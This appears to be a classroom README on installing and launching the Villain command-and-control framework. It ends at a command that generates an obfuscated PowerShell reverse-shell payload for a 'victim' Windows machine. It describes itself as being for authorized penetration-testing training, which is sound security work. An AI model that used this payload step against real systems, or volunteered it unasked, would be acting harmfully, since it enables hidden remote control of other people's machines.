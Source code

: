 # Villain Framework: Creating a Reverse Shell for Pentesting Windows

The Villain Framework is an open-source command-and-control (C2) framework designed for security researchers and penetration testers. It provides a platform to manage multiple agents, execute payloads, and simulate advanced adversary techniques in red team engagements. Villain supports cross-platform payloads, making it useful for testing the security posture of diverse environments. While powerful, it is intended strictly for ethical use in authorized security assessments and learning, helping professionals understand post-exploitation scenarios and improve defenses.

## Steps to get started with Villain

### 1. <ins>Installation</ins>
- Clone the repo as per the instructions in class:
  ```zsh
  https://github.com/keralahacker/Villain.git
  cd Villain
  ```
- Install the necessary dependencies:
  ```zsh
  sudo apt-get update
  sudo apt install python3-pip python3-dev build-essential libssl-dev libffi-dev
  sudo apt upgrade
  ```
- Create and activate a safe virtual environment to run `Villain.py`:
  ```zsh
  python3 -m venv venv
  source venv/bin/activate
  pip3 install -r requirements.txt
  ```
### 2. <ins>Launch</ins>
- Once in `/Villain`, launch the tool by:
  ```zsh
  sudo python3 Villain.py
  ```

<img width="1920" height="1080" alt="VirtualBox_kali-linux-2025 2-virtualbox-amd64_19_08_2025_05_19_06" src="https://github.com/user-attachments/assets/9716fb8a-73d2-4997-be7e-1c8769bf72d9" />

### 3. <ins>Generate and Execute Paylaod</ins>
- Now, generate a payload for a victim Windows machine using the following command:
  ```zsh
  generate os=windows payload=windows/reverse_tcp/powershell lhost=eth0 obfuscate
  ```
  
